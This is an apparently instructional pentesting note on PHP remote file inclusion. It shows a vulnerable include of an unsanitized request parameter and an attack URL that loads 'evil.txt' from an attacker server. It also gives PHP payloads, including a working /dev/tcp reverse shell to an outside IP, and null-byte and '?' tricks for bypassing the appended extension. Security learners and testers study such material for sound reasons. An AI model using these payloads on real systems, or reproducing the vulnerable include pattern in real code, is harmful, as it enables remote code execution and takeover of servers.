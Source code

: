 # Remote File Inclusion

Remote file inclusion uses pretty much the same vector as local file inclusion.

A remote file inclusion vulnerability lets the attacker execute a script on the target-machine even though it is not even hosted on that machine.

RFI's are less common than LFI. Because in order to get them to work the developer must have edited the `php.ini` configuration file.

This is how they work.

So you have an unsanitized parameter, like this

```text
$incfile = $_REQUEST["file"];
include($incfile.".php");
```

Now what you can do is to include a file that is not hosted on the victim-server, but instead on the attackers server.

```text
http://exampe.com/index.php?page=http://attackerserver.com/evil.txt
```

And evil.txt will look like something like this:

```text
<?php echo shell_exec("whoami");?>

# Or just get a reverse shell directly like this:
<?php echo system("0<&196;exec 196<>/dev/tcp/10.11.0.191/443; sh <&196 >&196 2>&196"); ?>
```

So when the victim-server includes this file it will automatically execute the commands that are in the evil.txt file. And we have a RCE.

## Avoid extentions

Remember to add the nullbyte `%00` to avoid appending `.php`. This will only work on php before version 5.3.

If it does not work you can also add a `?`, this way the rest will be interpreted as url parameters.

